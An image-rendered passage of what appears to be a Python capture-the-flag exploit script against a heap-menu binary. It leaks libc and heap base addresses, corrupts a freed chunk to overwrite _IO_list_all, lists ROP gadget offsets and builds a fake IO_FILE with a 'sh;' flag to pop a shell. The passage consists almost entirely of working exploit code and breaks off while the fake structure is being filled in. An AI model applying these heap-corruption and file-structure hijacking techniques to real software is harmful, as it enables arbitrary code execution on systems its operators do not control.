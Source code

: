 ```python
    cmd(4)
    ru(b"Index: ")
    sl(i2b(idx))


add(0, 0x510)
add(1, 0x900)
add(2, 0x520)
add(3, 0x900)
delet(2)
add(4, 0x900)
delet(0)

show(2)
libc_base = u64_ex(ru(b"\n", drop=True)) - 0x1F70F0
lg("libc_base", libc_base)
edit(2, b"a" * 0x10)
show(2)
ru(b"a" * 0x10)
heap_base = u64_ex(ru(b"\n", drop=True)) - 0x10C0
lg("heap_base", heap_base)

edit(
    2,
    flat(
        {
            0: [
                libc_base + 0x1F70F0,
                libc_base + 0x1F70F0,
                heap_base + 0xDC0,
                libc_base + libc.sym._IO_list_all - 0x20,
            ]
        }
    ),
)
add(5, 0x900)

"""
1630aa:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
1630ae:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
1630b2:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
1630b6:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
1630bd:>  4c 89 ef             >  mov    rdi,r13
1630c0:>  ff 50 28             >  call   QWORD PTR [rax+0x28]
"""
magic_gadget = libc_base + 0x1630AA
leave_ret = libc_base + 0x0000000000050877
add_rsp_0x38_ret = libc_base + 0x0000000000054BF4
pop_rdi_ret = libc_base + 0x0000000000023B65
pop_rsi_ret = libc_base + 0x00000000000251BE
pop_rdx_ret = libc_base + 0x0000000000166262
pop_rax_ret = libc_base + 0x000000000003FA43

_lock = libc_base + 0x1F8A10
_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
fake_IO_FILE = heap_base + 0x290

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1._mode = 1
f1.vtable = _IO_wfile_jumps
```